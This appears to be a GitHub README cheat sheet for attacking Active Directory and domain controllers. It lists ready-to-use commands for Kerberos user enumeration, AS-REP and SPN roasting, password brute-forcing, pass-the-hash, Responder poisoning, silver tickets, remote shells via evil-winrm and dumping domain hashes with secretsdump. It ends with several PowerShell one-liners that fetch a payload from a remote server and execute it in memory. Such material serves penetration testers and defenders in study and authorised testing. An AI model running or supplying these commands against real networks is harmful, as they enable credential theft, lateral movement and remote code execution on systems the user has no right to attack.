 <pre>
               _   _             _____  _               _                   
     /\       | | (_)           |  __ \(_)             | |                  
    /  \   ___| |_ ___   _____  | |  | |_ _ __ ___  ___| |_ ___  _ __ _   _ 
   / /\ \ / __| __| \ \ / / _ \ | |  | | | '__/ _ \/ __| __/ _ \| '__| | | |
  / ____ \ (__| |_| |\ V /  __/ | |__| | | | |  __/ (__| || (_) | |  | |_| |
 /_/    \_\___|\__|_| \_/ \___| |_____/|_|_|  \___|\___|\__\___/|_|   \__, |
                                                                       __/ |
                                                                      |___/ 
               ___ _                _   __ _               _   
              / __\ |__   ___  __ _| |_/ _\ |__   ___  ___| |_ 
             / /  | '_ \ / _ \/ _` | __\ \| '_ \ / _ \/ _ \ __|
            / /___| | | |  __/ (_| | |__\ \ | | |  __/  __/ |_ 
            \____/|_| |_|\___|\__,_|\__\__/_| |_|\___|\___|\__|
                                                   
</pre>

### A compilation of tools and techniques targeting Active Directory and Domain Controlers.


## 0x00 Mind Map & CheatSheets
[Pentesting Active Directory](https://www.xmind.net/m/5dypm8/)

[Windows & Active Directory Exploitation](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)


## 0x01 Recon & Enumeration

##### [ARP-Scan](https://github.com/royhills/arp-scan)
Host discovery:

`arp-scan --interface=<INTERFACE> --localnet`


#### [Impacket-GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)
Get user's non-preauth AS-Rep TGT:

`getnpusers <domain_name>/<user> -dc-ip=<domain_controller_ip>`


##### [Kerbrute](https://github.com/ropnop/kerbrute)
Enumerate or validate accounts through Kerberos Pre-Authentication [aka Pre-auth Bruteforcing]:

`kerbrute userenum --dc <DOMAIN CONTROLLER> -d <DOMAIN> <WORDLIST>` 


#### [Impacket-GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)
Authenticated SPN Enumeration

`getuserspns -dc-ip <domain_controler_ip> <domain>/<user> -request`


##### [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
LDAP Enumeration

`python3 gMSADumper.py -u <USER> -p <PASSWORD> -d <DOMAIN>`


#### [BloodHound](https://github.com/BloodHoundAD/BloodHound)
Authenticated Domain Enumeration

`bloodhound-python -u <user> -p <pass> -ns <domain_controler_ip> -d <domain_name> -c All`
##### _Please note that this configuration shall get you caught, as it is going to send a lot of queries against the domain._


## 0x02 Exploitation

##### [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
Brute-force with User&Pass combinations:

`crackmapexec smb <IP> -u <USER LIST> -P <PASSWORD>`

Pass-The-Hash

`crackmapexec smb <HOST/RANGE> -u <USER> -H <NTLM HASH>`

##### [Responder](https://github.com/lgandx/Responder/)

Listening for events:

`responder -I <NETWORK INTERFACE> -A`

##### [Impacket-getSTX](https://github.com/SecureAuthCorp/impacket)

Silver Ticket Attack

`python3 getST.py <DOMAIN>/<USER>$ -spn WWW/<DOMAIN CONTROLLER> -hashes :<HASH> -impersonate <USER TO IMPERSONATE>`


## 0x03 Post-Exploitation

##### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
Get a foothold on a remote machine

`evil-winrm -i <machine_ip> -u <user> -p <pass>`


##### [KrbRelayX](https://github.com/dirkjanm/krbrelayx)

Add DNS records:

`python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' -a add -r '<RECORD.DOMAIN>' -d <YOUR IP> <MACHINE IP>`

##### [Impacket-getADUser](https://github.com/SecureAuthCorp/impacket)

Authenticated User Enumeration

`python3 GetADUsers.py -all <DOMAIN>/<USER>:<PASS> -dc-ip <IP ADDRESS>`


##### [Impacket-SecretsDump](https://github.com/SecureAuthCorp/impacket)

Dump User Hashes from Domain Controller

`python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<MACHINE>`

##### Downloading files via PowerShell
`iex (New-Object Net.WebClient).DownloadString('http://server/payload.ps1')`


`$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$false;$ie.navigate('http://server/payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`

###### PSv3 & onwards
`iex (iwr 'http://server/payload.ps1')`


`$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://server/payload.ps1',$false);$h.send();iex
$h.responseText`


`$wr = [System.NET.WebRequest]::Create("http://server/payload.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

